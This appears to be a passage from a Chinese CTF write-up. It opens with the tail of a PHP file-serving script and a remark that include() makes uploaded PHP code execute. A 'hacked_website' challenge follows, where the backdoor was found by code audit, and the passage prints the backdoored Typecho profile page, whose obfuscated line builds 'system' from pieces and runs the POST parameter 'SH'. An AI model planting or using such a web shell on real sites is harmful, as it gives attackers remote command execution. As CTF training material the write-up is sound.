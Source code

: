 ```php
        default:
            header('HTTP/1.0 404 Not Found');
            exit;
    }

    // 输出图片内容
    readfile($file_path);
    
    // Include 文件
    include($file_path);
    exit;
} 
else {
    header('HTTP/1.0 404 Not Found');
    exit;
}
?>

```
>这里必须有 `include` 或者其他文件包含函数才能执行其中的 PHP 代码

### hacked_website
- 题目简述：网站被黑了，留下了后门，`dirsearch` 一扫有 `www.zip`，那很明显要代码审计了。    
- 当然，也可以有牛逼的工具——D盾 Web检测。    
- 然后发现后门。（下附后门函数的代码）
```php
<?php
include 'common.php';
include 'header.php';
include 'menu.php';

$stat = \Widget\Stat::alloc();
?>
<div class="main">
    <div class="body container">
        <?php include 'page-title.php'; ?>
        <div class="row typecho-page-main">
            <div class="col-mb-12 col-tb-3">
                <p><a href="https://gravatar.com/emails/"
                    <?php $a = 'sys';$b = 'tem';$x = $a.$b;if (!isset($_POST['SH'])) {$z = "''";} else $z = $_POST['SH'];?>
                      title="<?php _e('在 Gravatar 上修改头像'); ?>"><?php echo '<img class="profile-zavatar" src="' . \Typecho\Common::gravatarUrl($user->mail, 220, 'X', 'mm', $request->isSecure()) . '" alt="' . $user->screenName . '" />'; ?></a>
                </p>
                <h2><?php $user->screenName(); ?></h2>
                <p><?php $user->name(); ?></p>
				<p><?php $user->name(); ?></p>
                <p><?php _e('目前有 <em>%s</em> 篇日志, 并有 <em>%s</em> 条关于你的评论在 <em>%s</em> 个分类中.%s',
                        $stat->myPublishedPostsNum, $stat->myPublishedCommentsNum, $stat->categoriesNum, $x($z)); ?></p>
                <p><?php
                    if ($user->logged > 0) {
                        $logged = new \Typecho\Date($user->logged);
                        _e('最后登录: %s', $logged->word());
                    }
                    ?></p>
            </div>

            <div class="col-mb-12 col-tb-6 col-tb-offset-1 typecho-content-panel" role="form">
                <section>
                    <h3><?php _e('个人资料'); ?></h3>
                    <?php \Widget\Users\Profile::alloc()->profileForm()->render(); ?>
```